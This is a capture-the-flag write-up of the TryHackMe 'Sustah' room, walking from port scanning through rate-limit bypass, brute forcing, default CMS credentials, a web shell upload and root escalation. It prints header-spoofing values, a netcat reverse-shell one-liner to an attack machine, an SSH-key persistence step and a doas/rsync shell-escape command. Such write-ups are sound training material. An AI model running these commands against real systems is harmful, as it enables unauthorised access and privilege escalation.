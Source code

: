 # Sustah

https://tryhackme.com/room/sustah

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"

An easy-ish room (solved it in under an hour, which is good for me), with some new tricks I haven't used before.

1. NMap revealed 22, 80 and 8085. Both 80 and 8085 looked like single page websites, with nothing on 80
2. 8085 hosted a 'Spinner' site, where you had to guess a number. Throwing this into burp intruder quickly ran into a strict ratelimit. The hint for this was 'what headers can you add?'
3. Researching bypassing ratelimiting, I tried a bunch of things. Eventually adding the following headers and header values got me through:

  ```
  X-Originating-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Remote-Addr: 127.0.0.1
  X-Client-IP: 127.0.0.1
  X-Host: 127.0.0.1
  X-Forwared-Host: 127.0.0.1
  ```
  
  This was from https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass. Later, looking at the spinner code, it was specifically set to bypass limiting for `X-Remote-Addr` with that localhost value.
  
4. Now I was able to brute force the number, using Intruder to attack with 500 threads and all numbers from 10000 to 99999 (as the answer field showed five digits). Getting the right number revealed a hidden path under the 80 site.

5. On this site was a CMS (won't say the type as its one of the question answers). I was able to find credentials on one of its pages on the site-map, which turned out to be publically documented default credentials. There was also a known exploit, where if you have creds for an admin user (as the default user is) you can access a file upload screen that doesn't do any vetting. The version of the CMS was one of the other questions - I submitted the verion on the exploit entry from exploit-db, which was correct.

6. Uploading a PHP web shell, I connected back to my attack machine with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.7.78 4444 >/tmp/f`

7. On the machine, www-data had no access to find and there wasn't anything obvious. The question hint, however, said something about interesting backups. Checking /var/backups, I found a hidden file called `.bak.passwd`, which contained the password for `kiran`, the only user with a home folder.

8. As kiran I got the user flag, then added my ssh pub key to a new authorized_keys entry under a new .ssh folder (chmod 700 on the .ssh folder, and 600 on authorized keys, I always need to look this up). Afterwards I could ssh in easily.

9. Basic enumeration got me nowhere. The question hint was 'you dont always need sudo', but it wans't until I ran linpeas that I figured out what this alluded to: there is a quasi-alternative to sudo called `doas`. Specifically, here kiran was able to run `rsync as root` via doas.

10. The final privesc was `doas -u root rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` which got me a root shell and the final flag.
